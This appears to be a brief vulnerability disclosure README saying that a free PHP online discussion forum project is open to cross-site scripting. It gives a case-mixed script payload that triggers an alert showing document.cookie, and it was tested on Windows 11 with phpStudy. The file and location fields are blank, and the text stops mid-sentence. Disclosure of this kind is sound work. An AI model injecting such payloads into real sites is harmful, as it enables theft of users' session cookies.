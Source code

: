 # System-with-Cross-site-Scripting-XSS-
Vul_Author: WangTY-Sama
vendors: https://itsourcecode.com/free-projects/php-project/online-discussion-forum-project-in-php-with-source-code/
Vulnerability File: 
Vulnerability location: 
[+] Payload: "><sCrIpT>alert(document.cookie)</ScRiPt>
Tested on Windows 11, phpStudy

There is an example with alert:

When you enter the system,
